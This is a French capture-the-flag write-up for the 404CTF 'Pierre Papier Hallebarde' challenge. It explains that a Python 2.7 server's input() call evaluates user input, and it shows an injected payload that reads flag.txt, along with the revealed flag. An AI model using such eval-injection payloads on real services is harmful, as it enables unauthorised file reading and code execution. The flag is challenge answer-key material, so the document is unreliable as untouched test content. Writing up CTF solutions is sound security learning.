

## MISC / Pierre Papier Hallebarde

<p align="center">
  
</p>


### Look around

Le serveur nous propose une version revisitée de pierre / feuille / ciseaux ... Et un peu pipée en effet.

```python
if choix_utilisateur == 1:
  choix_ordi = 2
elif choix_utilisateur == 2:
  choix_ordi = 3
elif choix_utilisateur == 3:
  choix_ordi = 1
else:
  print("Choix invalide. Vous avez perdu")
  exit(1)
  ```

Le choix de l'ordinateur est déterminé par avance pour que nous perdions ...

Toutefois, un test est bien fait entre les choix des deux joueurs :

```python
def decision(joueur1, joueur2):

	if joueur1 == joueur2:
		return 2
	if joueur1 == 1 and joueur2 == 2:
		return 2
	if joueur1 == 1 and joueur2 == 3:
		return 1
	if joueur1 == 2 and joueur2 == 1:
		return 1
	if joueur1 == 2 and joueur2 == 3:
		return 2
	if joueur1 == 3 and joueur2 == 1:
		return 2
	if joueur1 == 3 and joueur2 == 2:
		return 1
	return 2
  ```


En regardant de plus près le Shebang : `#!/usr/bin/python2.7 -u`

Le `-u` est pour unbuffered les output, et surtout la version de python est aujourd'hui désuète ...

### Exploit

En python2, `input()` équivaut à `eval(raw_input())` et il est donc possible de passer (et faire évaluer, une variable, une fonction, ou du code ...)

On peut alors lui faire exécuter :

`  __import__('sys').stdout.write(open("flag.txt").readline())
`


```bash
  Bienvenue sur pierre-papier-Hallebarde !
  La pierre bat la Hallebarde, le papier bat la pierre et la Hallebarde bat le papier
  Pour jouer entrez un chiffre entre 1 et 3 :
  1 : pierre
  2 : papier
  3 : Hallebarde
  Choix ?
  >   __import__('sys').stdout.write(open("flag.txt").readline())
  404CTF{cH0iX_nUm3r0_4_v1c701r3}
```
